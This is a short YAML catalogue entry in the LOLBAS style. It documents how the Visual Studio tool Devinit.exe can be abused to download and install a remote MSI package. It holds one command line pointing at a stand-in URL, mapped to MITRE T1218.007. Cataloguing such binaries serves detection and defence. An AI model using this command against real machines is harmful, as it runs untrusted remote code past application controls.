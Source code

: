 ```yaml
---
Name: Devinit.exe
Description: Visual Studio 2019 tool
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: devinit.exe run -t msi-install -i https://example.com/out.msi
    Description: Downloads an MSI file to C:\Windows\Installer and then installs it.
    Usecase: Executes code from a (remote) MSI file.
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\*\Community\Common7\Tools\devinit\devinit.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\*\Community\Common7\Tools\devinit\devinit.exe
Resources:
  - Link: https://twitter.com/mrd0x/status/1460815932402679809
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

